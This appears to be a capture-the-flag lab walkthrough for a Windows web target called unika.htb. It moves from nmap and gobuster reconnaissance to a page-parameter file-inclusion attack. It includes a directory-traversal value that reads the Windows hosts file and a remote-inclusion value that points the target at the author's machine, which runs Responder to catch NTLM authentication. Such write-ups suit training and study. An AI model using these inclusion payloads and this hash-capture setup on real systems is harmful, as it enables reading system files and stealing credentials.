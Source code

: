 When visiting the web service using the IP address, what is the domain that we are being redirected to? `unika.htb`.
```bash
[sekai@arch ~]# sudo nmap -T5 -sC -sV -O -p 80 "10.129.97.105"
```
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Which scripting language is being used on the server to generate webpages? `php`.
```bash
[sekai@arch ~]# gobuster dir -x html \
-w Workspace/wordlists/directory-list-2.3-small.txt -u "10.129.97.105"
```
```bash
/english.html         (Status: 200) [Size: 46453]
/french.html          (Status: 200) [Size: 47199]
/german.html          (Status: 200) [Size: 46984]
```

What is the name of the URL parameter which is used to load different language versions of the webpage? `page`.

We can access `http://10.129.97.105/english.html`, `http://10.129.97.105/french.html`, etc.

In order to access `http://10.129.97.105` (it redirects us to `http://unika.htb`, which has no connection), we need to change our `/etc/hosts` file:
```bash
/etc/hosts
# custom hosts
10.129.97.105   unika.htb
```

Which of the following values for the `page' parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
```bash
../../../../../../../../windows/system32/drivers/etc/hosts
```

Which of the following values for the `page' parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
```bash
//10.10.14.208/somefile
```

In this case `10.10.14.208` is my IP address on the VPN.

What does NTLM stand for? New Technology LAN Manager.

Which flag do we use in the Responder utility to specify the network interface? `-I`.
```bash
yay -S responder
echo "sometext" > somefile
ip a
responder -I tun0
```
